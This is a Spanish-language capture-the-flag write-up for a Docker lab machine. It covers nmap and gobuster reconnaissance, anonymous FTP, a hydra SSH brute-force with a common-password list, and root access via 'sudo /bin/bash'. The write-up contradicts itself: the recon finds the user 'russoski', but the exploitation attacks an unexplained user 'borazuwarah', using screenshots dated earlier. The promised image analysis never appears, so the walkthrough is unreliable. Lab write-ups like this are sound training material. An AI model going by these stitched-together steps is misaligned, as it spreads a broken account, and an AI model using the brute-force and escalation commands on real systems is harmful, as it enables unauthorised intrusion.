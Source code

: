 ```yaml
---
Maquina: obssesion
SO: Linux
Explotación: Análisis de imágenes
Escala_privs: Permisos sudo
Dificultad: Muy fácil
tags:
  - maquina
  - fuerza_bruta
  - analisis_imagen
  - linux
---
```

## Reconocimiento

1. **Explorar los puerto abiertos del docker**: 

```bash 
nmap -p- --open --min-rate 5000 -sV -Pn 172.17.0.2
```

![[Pasted image 20241021134220.png]]

2. **Acceso al ftp mediante usuario Anonymous y descarga de documentos**:

![[Pasted image 20241021134332.png]]

3. **Análisis de los documentos descargados**:

![[Pasted image 20241021134500.png]]

Como se puede apreciar, hay un chat curioso con los usuarios Gonza y Russski (ya tenemos posibles nombres de usuario, también se menciona una tal Nágore):

4. **Investigación del portal web**:

Como hemos observado hay un portal web activo en el puerto 80, así que vamos a indagar en el a ver que encontramos.

Tras pasar la herramienta gobuster tenemos el siguiente resultado:

```bash 
gobuster dir -u http://172.17.0.2/ -w /home/alejandro/wordlists/SecLists/Discovery/Web-Content/common.txt
```

![[Pasted image 20241021135840.png]]

Si observamos en el path /backup nos ha dejado un mensaje importante:

![[Pasted image 20241021140154.png]]

Ahora ya sabemos que el usuario que utiliza es russoski.

## Explotación:

4. **Acceso al SSH por Fuerza Bruta**:

Con el usuario borazuwarah, vamos a intentar hacer un ataque de hydra para poder acceder al SSH

```bash 
hydra -l borazuwarah -P /home/alejandro/wordlists/SecLists/Passwords/Common-Credentials/10k-most-common.txt  ssh://172.17.0.2 
```

![[Pasted image 20241019154043.png]]

Listo, ya sabemos la contraseña del usuario borazuwarah -> 123456

![[Pasted image 20241019154520.png]]

Una vez dentro ya podemos pasar a la escala de privilegios.

5. **Escala de privilegios**:

Para ver los permisos que tenemos con el comando sudo podemos ejecutar:

```bash 
sudo -l
```

![[Pasted image 20241019154627.png]]

Como podemos apreciar se puede ejecutar /bin/bash como sudo.... Así que vamos a ejecutarlo.

```bash 
sudo /bin/bash
```

![[Pasted image 20241019154727.png]]